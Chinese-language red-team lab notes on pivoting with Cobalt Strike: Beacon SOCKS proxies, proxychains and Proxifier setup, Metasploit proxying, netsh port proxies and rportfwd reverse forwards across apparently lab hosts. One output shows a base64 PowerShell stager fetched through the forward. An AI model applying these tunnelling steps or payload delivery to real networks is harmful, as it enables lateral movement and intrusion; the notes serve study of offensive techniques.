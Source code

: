 # SOCKS Proxies

Cobalt Strike起一个socks 4代理

```
beacon> socks 1080
[+] started SOCKS4a server on: 1080
```

在kali可以看到这个代理的端口
```
root@kali:~# ss -lpnt
State            Recv-Q           Send-Q                     Local Address:Port                      Peer Address:Port          Process
LISTEN           0                128                                    .:1080                                 .:*              users:(("java",pid=1296,fd=11))
```


修改proxychains配置文件```/etc/proxychains.conf```，增加socks4代理配置
```
socks4 127.0.0.1 1080
```

# Windows Apps

[Proxifier](https://www.proxifier.com/),windows下的一个流量代理软件

增加一个代理
```
 Profile > Proxy Servers -> Add
```

设置代理规则，可以为指定应用设置指定规则
```
 Profile > Proxification Rules
```


# Browsers

主要是FoxyProxy的配置，选择socks4

# Metasploit

在Cobalt Strike ，选择```View > Proxy Pivots```，点击```Tunnel ```按钮，会出现一行诸如这样的命令：
```
setg Proxies socks4:10.10.5.120:1080
```

粘贴上面的命令在msf上执行，然后msf所有的模块都会走1080代理流量端口

如果要停止sock代理：
```
socks stop
```

或者

```
View > Proxy Pivots > Stop
```

# Reverse Port Forwards

两种方法建立反向端口转发

1. netsh（这个[OSCP](https://github.com/maxzxc0110/hack-study/blob/main/OSCP/%E8%BD%AC%E5%8F%91%E5%92%8C%E9%9A%A7%E9%81%93.md)的教材有介绍）
2. Cobalt Strike里面自带的转发

## netsh

语法
```
netsh interface portproxy add v4tov4 listenaddress= listenport= connectaddress= connectport= protocol=tcp
```

参数解释：
```
listenaddress is the IP address to listen on (probably always 0.0.0.0).
listenport is the port to listen on.
connectaddress is the destination IP address.
connectport is the destination port.
protocol to use (always TCP).
```

实例,在dc-2建立10.10.14.55:4444的转发到本地端口4444
```
C:\>hostname
dc-2

C:\>netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=4444 connectaddress=10.10.14.55 connectport=4444 protocol=tcp
```

在dc-1上访问10.10.17.71:4444
```
PS C:\> hostname
dc-1

PS C:\> Test-NetConnection -ComputerName 10.10.17.71 -Port 4444

ComputerName     : 10.10.17.71
RemoteAddress    : 10.10.17.71
RemotePort       : 4444
InterfaceAlias   : Ethernet
SourceAddress    : 10.10.15.75
TcpTestSucceeded : True
```

建立连接
```
PS C:\Users\Administrator\Desktop> hostname
ad

PS C:\Users\Administrator\Desktop> .\listener.ps1
Listening on port 4444
A client has connected
```

listener.ps1
```
$endpoint = New-Object System.Net.IPEndPoint ([System.Net.IPAddress]::Any, 4444)
$listener = New-Object System.Net.Sockets.TcpListener $endpoint
$listener.Start()
Write-Host "Listening on port 4444"
while ($true)
{
  $client = $listener.AcceptTcpClient()
  Write-Host "A client has connected"
  $client.Close()
}
```

拆除代理连接
```
C:\>netsh interface portproxy delete v4tov4 listenaddress=0.0.0.0 listenport=4444
```

关于 netsh 端口转发的注意事项：

1. 不管绑定什么端口，都需要本地管理员权限才能添加和删除它们。
2. 它们是socket到socket的连接，因此无法通过防火墙和 Web 代理等网络设备进行连接。
3. 它们特别适合在机器之间创建中继。


## rportfwd

语法：
```
rportfwd [bind port] [forward host] [forward port]
```


当前dc2无法访问10.10.5.120

```
PS C:\> hostname
dc-2

PS C:\> iwr -Uri http://10.10.5.120/a
iwr : Unable to connect to the remote server
```


在WKSTN-1上，把10.10.5.120:80转发到本地端口8080
```
beacon> rportfwd 8080 10.10.5.120 80
[+] started reverse port forward on 8080 to 10.10.5.120:80
```


查看转发成功
```
beacon> run netstat -anp tcp

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING
```


现在访问10.10.17.231:8080就是相当于访问10.10.5.120:80
```
PS C:\> iwr -Uri http://10.10.17.231:8080/a

StatusCode        : 200
StatusDescription : OK
Content           : $s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sIAAAAAAAAAOy9Wa/qSrIu+rzrV8yHLa21xNo
                    1wIAxR9rSNTYY444eTJ1SyRjjBtw3YM49//1GZBoGY865VtXW1rkPV3dKUwyMnU1kNF9EZoRXTvEfqyLz7UKLT863/9g6We7H0T
                    fm...
```


停止转发命令
```
rportfwd stop 8080
```


需要注意：

1. Beacon 的反向端口转发始终将流量通过隧道传输到 Team Server，而 Team Server 将流量发送到其预期机器，所以不应该被用来在单个机器之间转发流量。
2. 流量在 Beacon 的 C2 流量中进行隧道传输，而不是通过单独的套接字，并且也可以通过 P2P 链接工作。
3. 无需成为本地管理员即可在高端口上创建反向端口转发。


## rportfwd_local

Beacon 也有一个rportfwd_local命令。```rportfwd```将流量传输到 Team Server，```rportfwd_local```将传输到运行 Cobalt Strike 客户端的机器。

1. 在kali开启一个python的web服务器

```
root@kali:~# echo "This is a test" > test.txt
root@kali:~# python3 -m http.server --bind 127.0.0.1 8080
Serving HTTP on 127.0.0.1 port 8080 (http://127.0.0.1:8080/)
```

2. 在kali开启一个CS的客户端,并且进行流量转发
```
beacon> rportfwd_local 8080 127.0.0.1 8080
[+] started reverse port forward on 8080 to rasta -> 127.0.0.1:8080
```

3. 在另外一台机器上访问wkstn-1:8080，访问到了kali上python开的web服务
```
PS C:\> hostname
wkstn-2

PS C:\> iwr -Uri http://wkstn-1:8080/test.txt

StatusCode : 200
StatusDescription : OK
Content : This is a test
```

4. web服务访问记录
```
root@kali:~# python3 -m http.server --bind 127.0.0.1 8080
Serving HTTP on 127.0.0.1 port 8080 (http://127.0.0.1:8080/) ...
127.0.0.1 - - [23/Jul/2021 19:24:30] "GET /test.txt HTTP/1.1" 200 -
```